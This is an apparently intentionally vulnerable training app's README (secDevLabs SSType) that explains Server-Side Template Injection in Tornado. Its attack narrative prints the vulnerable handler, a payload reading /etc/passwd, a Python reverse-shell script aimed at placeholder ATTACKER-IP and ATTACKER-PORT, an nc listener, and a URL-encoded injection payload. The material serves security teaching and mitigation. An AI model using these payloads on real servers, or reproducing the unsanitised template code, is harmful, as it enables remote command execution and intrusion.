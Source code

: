 
# SSType

<p align="center"><img  src="src/images/ssti-logo.png"/></p>

SSType is a simple Python web application that contains an example of a Server-Side Template Injection vulnerability in Tornado. In this example, a specific subcategory of Injection will be exemplified: Server Side Injection or SSTI.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **Server-Side Template Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:10001][App], as exemplified below:

<p align="center"><img  src="images/SSType.jpg"/></p>

## Get to know the app 💉

To properly understand how this application works, you can do some search using `name` as a query string using a [browser](http://localhost:10001/?name=Vitor) or using `curl` in a terminal: 

```sh
curl http://localhost:10001/?name=Vitor
```

<p align="center"><img  src="images/attack0.png"/></p>

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of OS commands

After reviewing the application code, it was possible to see that the user input (`name` querystring variable) is not being handled properly before being rendered in the template, as shown in the following code snippets:

```python
def get(self):
    name = self.get_argument('name', '')
    template_data = tmpl.replace("NAMEHERE",name)
    t = tornado.template.Template(template_data)
    self.write(t.generate(name=name))
```

```html
<h3>Hello: NAMEHERE</h3>
<h2>Try with /?name=YourName</h2>
```

To confirm that the input field is vulnerable, the following payload could be used to test if the result of `4*4` could be rendered in the page:

```
http://localhost:10001/?name={{4*4}}
```

When this request gets to the application, `NAMEHERE` will be replaced into the HTML and it will execute the math, returning `16`: 

```html
<h3>Hello: {{4*4}} </h3>
<h2>Try with /?name=YourName</h2>
```

<p align="center"><img  src="images/attack1.png"/></p>

### 🔥

An attacker could now create any malicious command that, in theory, it will be executed. The first step we could do is trying to read the content of the `/etc/passwd` file. To do that, we will use the following Python command as the `name` query string:

```python
{%import os%}{{os.popen('cat /etc/passwd').read()}}
```

<p align="center"><img  src="images/attack2.png"/></p>

Great! Now that we can execute commands on the server hosting the application, a malicious Python script to provide us a shell somehow on the victim's server can be created. Let's take a look at the following example:

```python
import socket,subprocess,os

# creates a socket to estabilish the connection between the victim and the attacker
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER-IP","ATTACKER-PORT"))

# configures STDIN, STDOUT and STDERR to be used in the shell
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# spawns an interactive sh shell  
p=subprocess.call(["/bin/bash","-i"]);
```

To receive a reverse shell, we first need to use `nc` in our terminal to listen for any connections coming to our `ATTACKER-IP` and `ATTACKER-PORT` and later execute this Python script on the victim server:

```sh
nc -nlv ATTACKER-PORT
```

But how can we use this payload inside the `name` parameter? To do so, we could compact it using multiples `;` to separate each instruction, resulting in the following payload:

```
Don't forget to replace `ATTACKER-IP` and `ATTACKER-PORT` below!
```

```python
{%import os%}{{os.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER-IP\",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read()}}
```

However, as there might be some special characters in this string, we need to escape them before injecting it in the vulnerable application (this [online URL encoder](https://www.urlencoder.org/) may help) and hope for a shell:

```python
%7B%25import%20os%25%7D%7B%7Bos.popen%28%22python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ATTACKER-IP%5C%22%2CATTACKER-PORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22%2Fbin%2Fbash%5C%22%2C%5C%22-i%5C%22%5D%29%3B%27%22%29.read%28%29%7D%7D
```

<p align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to run commands on the server.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ASSType)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10001
[Dirb]: https://tools.kali.org/web-applications/dirb
